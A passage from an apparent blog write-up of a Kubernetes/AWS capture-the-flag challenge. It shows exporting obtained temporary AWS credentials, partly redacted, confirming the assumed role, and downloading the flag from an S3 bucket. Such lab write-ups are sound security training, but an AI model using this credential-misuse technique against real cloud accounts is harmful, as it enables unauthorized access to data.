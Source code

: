 ```bash
```

Success!  We have some new AWS credentials.  Lets setup our new AWS Session:

```bash
export AWS_ACCESS_KEY_ID="ASIA2AVYNEV<*REDACTED*>"
export AWS_SECRET_ACCESS_KEY="VTZ4TuDrtHGca<*REDACTED*>"
export AWS_SESSION_TOKEN="IQoJb3JpZ2luX2VjEAQaCXVzLXd+7ONV2wIgESXuf<*REDACTED*>"

root@wiz-eks-challenge:~# aws sts get-caller-identity
{
    "UserId": "AROA2AVYNEVMZEZ2AFVYI:test",
    "Account": "688655246681",
    "Arn": "arn:aws:sts::688655246681:assumed-role/challengeEksS3Role/test"
}
```

We are now the new role!   We hopefully have access to S3 now.  At the start
of the challenge it provided us a clue to what bucket we want to view by
providing us the IAM policy:

```json
{
    "Policy": {
        "Statement": [
            {
                "Action": [
                    "s3:GetObject",
                    "s3:ListBucket"
                ],
                "Effect": "Allow",
                "Resource": [
                    "arn:aws:s3:::challenge-flag-bucket-3ff1ae2",
                    "arn:aws:s3:::challenge-flag-bucket-3ff1ae2/flag"
                ]
            }
        ],
        "Version": "2012-10-17"
    }
}
```

So we want to fetch `arn:aws:s3:::challenge-flag-bucket-3ff1ae2/flag`:

```bash
root@wiz-eks-challenge:~# aws s3 cp s3://challenge-flag-bucket-3ff1ae2/flag .
download: s3://challenge-flag-bucket-3ff1ae2/flag to ./flag       
croot@wiz-eks-challenge:~# cat flag
wiz_eks_challenge{w0w_y0u_really_are_4n_eks_and_aws<*REDACTED*>}
```

and thats the final flag! In my next post I'll discuss the remediation steps
to prevent this configuration mistakes on your cluster!